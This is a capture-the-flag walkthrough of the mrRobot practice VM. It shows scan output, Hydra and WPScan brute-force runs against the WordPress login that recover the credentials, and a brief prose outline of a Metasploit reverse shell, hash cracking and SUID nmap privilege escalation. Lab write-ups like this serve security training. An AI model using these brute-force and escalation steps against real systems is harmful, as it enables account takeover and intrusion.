








# mrRobot VM

Starting with the NMAP scan
```
Nmap scan report for 192.168.1.8
Host is up (0.00032s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 08:00:27:B7:EB:6A (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```
As we can see port 80 is hosting a http server

Checking the server we see


Now running a nikto scan gives us
```
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.1.8
+ Target Hostname:    192.168.1.8
+ Target Port:        80
+ Start Time:         2025-01-05 00:12:46 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /iDMzkJ9Z.ashx: Retrieved x-powered-by header: PHP/5.5.29.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /index: Uncommon header 'tcn' found, with contents: list.
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: index.html, index.php. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ /admin/: This might be interesting.
+ /readme: This might be interesting.
+ /image/: Link header found with value: <http://192.168.1.8/?p=23>; rel=shortlink. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Link
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ /wp-login/: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found.
+ /wordpress/wp-admin/wp-login.php: Wordpress login found.
+ /blog/wp-login.php: Wordpress login found.
+ /wp-login.php: Wordpress login found.
+ /wordpress/wp-login.php: Wordpress login found.
+ 8101 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2025-01-05 00:15:46 (GMT5.5) (180 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
So the webserver is running WordPress and has a login page

Now trying a dir scan
```
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/arch/CTF/mrRobot/reports/_192.168.1.8/_25-01-05_00-29-07.txt

Target: https://192.168.1.8/

[00:29:07] Starting:
[00:29:07] 301 -  231B  - /js  ->  https://192.168.1.8/js/
[00:29:07] 301 -    0B  - /%2e%2e//google.com  ->  https://192.168.1.8/%2E%2E/google.com
[00:29:20] 403 -  220B  - /.ht_wsr.txt
[00:29:20] 403 -  223B  - /.htaccess.bak1
[00:29:20] 403 -  223B  - /.htaccess.orig
[00:29:20] 403 -  225B  - /.htaccess.sample
[00:29:20] 403 -  223B  - /.htaccess.save
[00:29:20] 403 -  224B  - /.htaccess_extra
[00:29:20] 403 -  223B  - /.htaccess_orig
[00:29:20] 403 -  221B  - /.htaccess_sc
[00:29:20] 403 -  221B  - /.htaccessBAK
[00:29:20] 403 -  222B  - /.htaccessOLD2
[00:29:20] 403 -  221B  - /.htaccessOLD
[00:29:20] 403 -  213B  - /.htm
[00:29:20] 403 -  214B  - /.html
[00:29:20] 403 -  223B  - /.htpasswd_test
[00:29:20] 403 -  219B  - /.htpasswds
[00:29:20] 403 -  220B  - /.httr-oauth
[00:29:35] 403 -  218B  - /.user.ini
[00:29:38] 301 -    0B  - /0  ->  https://192.168.1.8/0/
[00:29:57] 301 -  234B  - /admin  ->  https://192.168.1.8/admin/
[00:29:57] 301 -    0B  - /adm/index.php  ->  https://192.168.1.8/adm/
[00:30:02] 301 -    0B  - /admin/index.php  ->  https://192.168.1.8/admin/
[00:30:03] 301 -    0B  - /admin/mysql/index.php  ->  https://192.168.1.8/admin/mysql/
[00:30:03] 301 -    0B  - /admin/mysql2/index.php  ->  https://192.168.1.8/admin/mysql2/
[00:30:03] 301 -    0B  - /admin/phpMyAdmin/index.php  ->  https://192.168.1.8/admin/phpMyAdmin/
[00:30:03] 301 -    0B  - /admin/phpmyadmin/index.php  ->  https://192.168.1.8/admin/phpmyadmin/
[00:30:03] 301 -    0B  - /admin/phpmyadmin2/index.php  ->  https://192.168.1.8/admin/phpmyadmin2/
[00:30:03] 301 -    0B  - /admin/PMA/index.php  ->  https://192.168.1.8/admin/PMA/
[00:30:03] 301 -    0B  - /admin/pma/index.php  ->  https://192.168.1.8/admin/pma/
[00:30:04] 301 -    0B  - /admin2/index.php  ->  https://192.168.1.8/admin2/
[00:30:07] 301 -    0B  - /admin_area/index.php  ->  https://192.168.1.8/admin_area/
[00:30:20] 301 -    0B  - /adminarea/index.php  ->  https://192.168.1.8/adminarea/
[00:30:22] 301 -    0B  - /admincp/index.php  ->  https://192.168.1.8/admincp/
[00:30:23] 301 -    0B  - /adminer/index.php  ->  https://192.168.1.8/adminer/
[00:30:27] 301 -    0B  - /administrator/index.php  ->  https://192.168.1.8/administrator/
[00:30:35] 301 -    0B  - /apc/index.php  ->  https://192.168.1.8/apc/
[00:30:41] 301 -  234B  - /audio  ->  https://192.168.1.8/audio/
[00:30:41] 301 -    0B  - /atom  ->  https://192.168.1.8/feed/atom/
[00:30:43] 301 -    0B  - /axis//happyaxis.jsp  ->  https://192.168.1.8/axis/happyaxis.jsp
[00:30:43] 301 -    0B  - /axis2-web//HappyAxis.jsp  ->  https://192.168.1.8/axis2-web/HappyAxis.jsp
[00:30:43] 301 -    0B  - /axis2//axis2-web/HappyAxis.jsp  ->  https://192.168.1.8/axis2/axis2-web/HappyAxis.jsp
[00:30:46] 301 -    0B  - /bb-admin/index.php  ->  https://192.168.1.8/bb-admin/
[00:30:48] 301 -    0B  - /bitrix/admin/index.php  ->  https://192.168.1.8/bitrix/admin/
[00:30:49] 301 -  233B  - /blog  ->  https://192.168.1.8/blog/
[00:30:49] 403 -  214B  - /blog/
[00:30:54] 404 -  206B  - /cgi-bin/
[00:30:54] 404 -  224B  - /cgi-bin/a1stats/a1disp.cgi
[00:30:54] 404 -  214B  - /cgi-bin/awstats/
[00:30:54] 404 -  217B  - /cgi-bin/htimage.exe?2,2
[00:30:54] 404 -  218B  - /cgi-bin/imagemap.exe?2,2
[00:30:54] 404 -  216B  - /cgi-bin/htmlscript
[00:30:54] 404 -  216B  - /cgi-bin/awstats.pl
[00:30:54] 404 -  211B  - /cgi-bin/login
[00:30:54] 404 -  215B  - /cgi-bin/login.cgi
[00:30:54] 404 -  216B  - /cgi-bin/index.html
[00:30:54] 404 -  219B  - /cgi-bin/mt-xmlrpc.cgi
[00:30:54] 404 -  212B  - /cgi-bin/mt.cgi
[00:30:54] 404 -  215B  - /cgi-bin/mt/mt.cgi
[00:30:54] 404 -  222B  - /cgi-bin/mt/mt-xmlrpc.cgi
[00:30:54] 404 -  216B  - /cgi-bin/mt7/mt.cgi
[00:30:54] 404 -  223B  - /cgi-bin/mt7/mt-xmlrpc.cgi
[00:30:54] 404 -  214B  - /cgi-bin/printenv
[00:30:54] 404 -  213B  - /cgi-bin/php.ini
[00:30:54] 404 -  217B  - /cgi-bin/printenv.pl
[00:30:54] 404 -  214B  - /cgi-bin/test-cgi
[00:30:54] 404 -  214B  - /cgi-bin/test.cgi
[00:30:54] 404 -   16B  - /cgi-bin/login.php
[00:30:54] 404 -  217B  - /cgi-bin/ViewLog.asp
[00:30:56] 301 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  https://192.168.1.8/Citrix/AccessPlatform/auth/clientscripts/cookies.js
[00:30:57] 301 -    0B  - /claroline/phpMyAdmin/index.php  ->  https://192.168.1.8/claroline/phpMyAdmin/
[00:31:08] 301 -  232B  - /css  ->  https://192.168.1.8/css/
[00:31:09] 302 -    0B  - /dashboard  ->  https://192.168.1.8/wp-admin/
[00:31:09] 302 -    0B  - /dashboard/  ->  https://192.168.1.8/wp-admin/
[00:31:11] 301 -    0B  - /db/index.php  ->  https://192.168.1.8/db/
[00:31:12] 301 -    0B  - /dbadmin/index.php  ->  https://192.168.1.8/dbadmin/
[00:31:21] 301 -    0B  - /engine/classes/swfupload//swfupload.swf  ->  https://192.168.1.8/engine/classes/swfupload/swfupload.swf
[00:31:21] 301 -    0B  - /engine/classes/swfupload//swfupload_f9.swf  ->  https://192.168.1.8/engine/classes/swfupload/swfupload_f9.swf
[00:31:23] 301 -    0B  - /etc/lib/pChart2/examples/imageMap/index.php  ->  https://192.168.1.8/etc/lib/pChart2/examples/imageMap/
[00:31:25] 301 -    0B  - /extjs/resources//charts.swf  ->  https://192.168.1.8/extjs/resources/charts.swf
[00:31:26] 200 -    0B  - /favicon.ico
[00:31:26] 301 -    0B  - /feed  ->  https://192.168.1.8/feed/
[00:31:38] 301 -    0B  - /html/js/misc/swfupload//swfupload.swf  ->  https://192.168.1.8/html/js/misc/swfupload/swfupload.swf
[00:31:40] 301 -  235B  - /images  ->  https://192.168.1.8/images/
[00:31:40] 403 -  216B  - /images/
[00:31:40] 301 -    0B  - /image  ->  https://192.168.1.8/image/
[00:31:42] 301 -    0B  - /index.php  ->  https://192.168.1.8/
[00:31:42] 301 -    0B  - /index.php/login/  ->  https://192.168.1.8/login/
[00:31:45] 301 -    0B  - /install/index.php?upgrade/  ->  https://192.168.1.8/install/?upgrade/
[00:31:45] 200 -  504KB - /intro
[00:31:48] 403 -  212B  - /js/
[00:31:52] 200 -  158B  - /license
[00:31:52] 200 -  158B  - /license.txt
[00:31:56] 302 -    0B  - /login  ->  https://192.168.1.8/wp-login.php
[00:31:56] 301 -    0B  - /login.wdm%20  ->  https://192.168.1.8/login.wdm
[00:31:56] 302 -    0B  - /login/  ->  https://192.168.1.8/wp-login.php
[00:32:07] 301 -    0B  - /modelsearch/index.php  ->  https://192.168.1.8/modelsearch/
[00:32:10] 301 -    0B  - /myadmin/index.php  ->  https://192.168.1.8/myadmin/
[00:32:10] 301 -    0B  - /myadmin2/index.php  ->  https://192.168.1.8/myadmin2/
[00:32:10] 301 -    0B  - /mysql-admin/index.php  ->  https://192.168.1.8/mysql-admin/
[00:32:10] 301 -    0B  - /mysql/index.php  ->  https://192.168.1.8/mysql/
[00:32:11] 301 -    0B  - /mysqladmin/index.php  ->  https://192.168.1.8/mysqladmin/
[00:32:18] 301 -    0B  - /panel-administracion/index.php  ->  https://192.168.1.8/panel-administracion/
[00:32:22] 301 -    0B  - /phpadmin/index.php  ->  https://192.168.1.8/phpadmin/
[00:32:23] 403 -   94B  - /phpmyadmin
[00:32:23] 301 -    0B  - /phpma/index.php  ->  https://192.168.1.8/phpma/
[00:32:27] 403 -   94B  - /phpmyadmin/
[00:32:27] 403 -   94B  - /phpmyadmin/ChangeLog
[00:32:27] 403 -   94B  - /phpmyadmin/doc/html/index.html
[00:32:27] 403 -   94B  - /phpmyadmin/docs/html/index.html
[00:32:27] 403 -   94B  - /phpmyadmin/index.php
[00:32:27] 403 -   94B  - /phpmyadmin/phpmyadmin/index.php
[00:32:27] 403 -   94B  - /phpmyadmin/README
[00:32:27] 403 -   94B  - /phpmyadmin/scripts/setup.php
[00:32:27] 301 -    0B  - /phpmyadmin-old/index.php  ->  https://192.168.1.8/phpmyadmin-old/
[00:32:27] 301 -    0B  - /phpMyAdmin.old/index.php  ->  https://192.168.1.8/phpMyAdmin.old/
[00:32:27] 301 -    0B  - /phpMyAdmin/index.php  ->  https://192.168.1.8/phpMyAdmin/
[00:32:27] 301 -    0B  - /phpMyAdmin/phpMyAdmin/index.php  ->  https://192.168.1.8/phpMyAdmin/phpMyAdmin/
[00:32:27] 301 -    0B  - /phpmyadmin0/index.php  ->  https://192.168.1.8/phpmyadmin0/
[00:32:28] 301 -    0B  - /phpmyadmin1/index.php  ->  https://192.168.1.8/phpmyadmin1/
[00:32:28] 301 -    0B  - /phpmyadmin2/index.php  ->  https://192.168.1.8/phpmyadmin2/
[00:32:28] 301 -    0B  - /phpMyadmin_bak/index.php  ->  https://192.168.1.8/phpMyadmin_bak/
[00:32:28] 301 -    0B  - /phpMyAdminold/index.php  ->  https://192.168.1.8/phpMyAdminold/
[00:32:30] 301 -    0B  - /pma-old/index.php  ->  https://192.168.1.8/pma-old/
[00:32:30] 301 -    0B  - /PMA/index.php  ->  https://192.168.1.8/PMA/
[00:32:30] 301 -    0B  - /pma/index.php  ->  https://192.168.1.8/pma/
[00:32:30] 301 -    0B  - /PMA2/index.php  ->  https://192.168.1.8/PMA2/
[00:32:31] 301 -    0B  - /pmamy/index.php  ->  https://192.168.1.8/pmamy/
[00:32:31] 301 -    0B  - /pmamy2/index.php  ->  https://192.168.1.8/pmamy2/
[00:32:31] 301 -    0B  - /pmd/index.php  ->  https://192.168.1.8/pmd/
[00:32:38] 200 -   64B  - /readme
[00:32:38] 200 -   64B  - /readme.html
[00:32:42] 200 -   41B  - /robots.txt
[00:32:43] 301 -    0B  - /roundcube/index.php  ->  https://192.168.1.8/roundcube/
[00:32:43] 301 -    0B  - /rss  ->  https://192.168.1.8/feed/
[00:32:53] 200 -    0B  - /sitemap.xml
[00:32:53] 200 -    0B  - /sitemap
[00:32:53] 200 -    0B  - /sitemap.xml.gz
[00:32:53] 301 -    0B  - /siteadmin/index.php  ->  https://192.168.1.8/siteadmin/
[00:32:56] 301 -    0B  - /sql/index.php  ->  https://192.168.1.8/sql/
[00:33:01] 301 -    0B  - /sugarcrm/index.php?module=Accounts&action=ShowDuplicates  ->  https://192.168.1.8/sugarcrm/?module=Accounts&action=ShowDuplicates
[00:33:01] 301 -    0B  - /sugarcrm/index.php?module=Contacts&action=ShowDuplicates  ->  https://192.168.1.8/sugarcrm/?module=Contacts&action=ShowDuplicates
[00:33:06] 301 -    0B  - /templates/beez/index.php  ->  https://192.168.1.8/templates/beez/
[00:33:06] 301 -    0B  - /templates/ja-helio-farsi/index.php  ->  https://192.168.1.8/templates/ja-helio-farsi/
[00:33:06] 301 -    0B  - /templates/rhuk_milkyway/index.php  ->  https://192.168.1.8/templates/rhuk_milkyway/
[00:33:10] 301 -    0B  - /tmp/index.php  ->  https://192.168.1.8/tmp/
[00:33:11] 301 -    0B  - /tools/phpMyAdmin/index.php  ->  https://192.168.1.8/tools/phpMyAdmin/
[00:33:12] 301 -    0B  - /typo3/phpmyadmin/index.php  ->  https://192.168.1.8/typo3/phpmyadmin/
[00:33:19] 301 -  234B  - /video  ->  https://192.168.1.8/video/
[00:33:25] 301 -    0B  - /web/phpMyAdmin/index.php  ->  https://192.168.1.8/web/phpMyAdmin/
[00:33:26] 301 -    0B  - /webadmin/index.php  ->  https://192.168.1.8/webadmin/
[00:33:28] 301 -  237B  - /wp-admin  ->  https://192.168.1.8/wp-admin/
[00:33:28] 302 -    0B  - /wp-admin/  ->  https://192.168.1.8/wp-login.php?redirect_to=https%3A%2F%2F192.168.1.8%2Fwp-admin%2F&reauth=1
[00:33:28] 200 -   21B  - /wp-admin/admin-ajax.php
[00:33:29] 500 -    3KB - /wp-admin/setup-config.php
[00:33:29] 200 -    0B  - /wp-config.php
[00:33:29] 301 -  239B  - /wp-content  ->  https://192.168.1.8/wp-content/
[00:33:29] 403 -  245B  - /wp-content/plugins/akismet/admin.php
[00:33:29] 403 -  247B  - /wp-content/plugins/akismet/akismet.php
[00:33:29] 301 -  279B  - /wp-content/plugins/all-in-one-wp-migration/storage  ->  https://192.168.1.8/wp-content/plugins/all-in-one-wp-migration/storage/
[00:33:29] 200 -    0B  - /wp-content/
[00:33:30] 403 -  228B  - /wp-content/upgrade/
[00:33:30] 403 -  228B  - /wp-content/uploads/
[00:33:30] 301 -    0B  - /wp-content/plugins/adminer/inc/editor/index.php  ->  https://192.168.1.8/wp-content/plugins/adminer/inc/editor/
[00:33:30] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php
[00:33:30] 500 -    0B  - /wp-content/plugins/hello.php
[00:33:30] 301 -  240B  - /wp-includes  ->  https://192.168.1.8/wp-includes/
[00:33:30] 403 -  221B  - /wp-includes/
[00:33:30] 500 -    0B  - /wp-includes/rss-functions.php
[00:33:30] 200 -    0B  - /wp-cron.php
[00:33:31] 200 -    1KB - /wp-login
[00:33:31] 200 -    1KB - /wp-login.php
[00:33:31] 200 -    1KB - /wp-login/
[00:33:31] 301 -    0B  - /wp-register.php  ->  https://192.168.1.8/wp-login.php?action=register
[00:33:31] 302 -    0B  - /wp-signup.php  ->  https://192.168.1.8/wp-login.php?action=register
[00:33:32] 301 -    0B  - /www/phpMyAdmin/index.php  ->  https://192.168.1.8/www/phpMyAdmin/
[00:33:32] 301 -    0B  - /xampp/phpmyadmin/index.php  ->  https://192.168.1.8/xampp/phpmyadmin/
[00:33:32] 405 -   42B  - /xmlrpc
[00:33:32] 405 -   42B  - /xmlrpc.php
```
Which gives us quiet alot of files including some like robots.txt and license.txt

Further visiting these pages gives us this




Now we do have key-1-of-3.txt and a dictionary file
```
# cat key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9

# wc -l fsocity.dic
858160 fsocity.dic

# head -10 fsocity.dic
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```
So this may have some kind of usernames and passwords

Lets try a hydra scan to get the username
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-05 14:28:11
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://192.168.1.9:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username
[80][http-post-form] host: 192.168.1.9   login: Elliot   password: test
```
So there you have it, username Elliot

Now lets try wpscan for password with usernme `Elliot`
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27

       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://192.168.1.9/ [192.168.1.9]
[+] Started: Sun Jan  5 14:58:09 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://192.168.1.9/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.1.9/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] The external WP-Cron seems to be enabled: http://192.168.1.9/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.1.9/171d9b9.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.1.9/171d9b9.html, Match: 'WordPress 4.3.1'

[+] WordPress theme in use: twentyfifteen
 | Location: http://192.168.1.9/wp-content/themes/twentyfifteen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: http://192.168.1.9/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.9
 | Style URL: http://192.168.1.9/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.1.9/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <===============================================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / ER28-0652
All Found
Progress Time: 00:00:18 <========================================                                                             > (9 / 22) 40.90%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jan  5 14:58:35 2025
[+] Requests Done: 200
[+] Cached Requests: 6
[+] Data Sent: 1.235 MB
[+] Data Received: 22.929 MB
[+] Memory used: 288.492 MB
[+] Elapsed time: 00:00:25
```
And now we have the password too...

With this we can create a reverse shell using Metasploit



By using any online hash table or johnTheRipper you can get the password to be `abcdefghijklmnopqrstuvwxyz`



So now while trying to search up binaries with SUID privillages you can see `nmap` which has interactive mode too, perfect for exploitation



WOW! We have successfully solved this Box!
